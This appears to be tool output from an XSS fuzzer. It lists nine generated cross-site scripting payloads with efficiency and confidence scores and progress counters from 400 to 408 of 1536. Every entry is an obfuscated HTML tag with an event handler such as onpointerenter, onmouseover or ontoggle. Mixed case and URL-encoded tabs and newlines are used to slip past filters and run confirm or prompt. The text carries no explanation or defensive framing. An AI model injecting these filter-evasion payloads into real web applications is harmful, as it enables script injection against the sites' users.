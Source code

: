 ------------------------------------------------------------
 Payload: <HtMl%0dONPoINterenter%0a=%0a(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 400/1536
 
------------------------------------------------------------
 Payload: <DEtails%0donTOGGle%09=%09[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 401/1536
 
------------------------------------------------------------
 Payload: <a%0aoNMOusEoveR%0a=%0aa=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 402/1536
 
------------------------------------------------------------
 Payload: <A%0dONpoinTeRENTEr%0d=%0da=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 403/1536
 
------------------------------------------------------------
 Payload: <a%0aoNmoUsEOvEr%0d=%0d(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 404/1536
 
------------------------------------------------------------
 Payload: <D3v%0aoNPointErenter%09=%09(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 405/1536
 
------------------------------------------------------------
 Payload: <a%09oNpOiNTEReNTER%0a=%0a(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 406/1536
 
------------------------------------------------------------
 Payload: <hTmL/+/onmoUsEOVER+=+(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 407/1536
 
------------------------------------------------------------
 Payload: <DeTaiLs%09onPoInterENTER%0a=%0a[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 408/1536
 